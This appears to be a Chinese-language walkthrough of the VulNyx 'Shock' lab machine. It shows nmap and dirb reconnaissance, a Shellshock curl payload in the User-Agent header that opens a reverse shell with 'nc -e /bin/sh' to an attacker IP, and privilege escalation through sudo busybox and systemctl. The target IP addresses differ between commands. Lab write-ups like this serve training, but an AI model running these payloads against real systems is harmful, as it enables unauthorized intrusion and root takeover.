




# 环境

来自[Vulny_Shock](https://vulnyx.com/#Shock)，利用已知shellshock漏洞反弹shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.9.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.9.37
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,25,80,110 192.168.9.37
```



## 目录爆破

```bash
dirb http://192.168.9.37
dirb http://192.168.9.37/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/common.txt -X.php,.sh
```

发现有cgi-bin

# web渗透

## 利用存在的shell.sh拿shell

```bash
nmap -p80 --script=http-shellshock --script-args uri=/cgi-bin/shell.sh 192.168.10.15
```



存在Shellshock (CVE-2014–6271)

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id'" "http://192.168.9.37/cgi-bin/shell.sh" #验证
#反弹shell
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'nc -e /bin/sh 192.168.10.10 8888'" "http://192.168.1.81/cgi-bin/shell.sh"
```

## 提权

busybox提权

```bash
sudo -u will /usr/bin/busybox sh
```

systemctl提权

```bash
sudo -u root /usr/bin/systemctl 
!sh
```

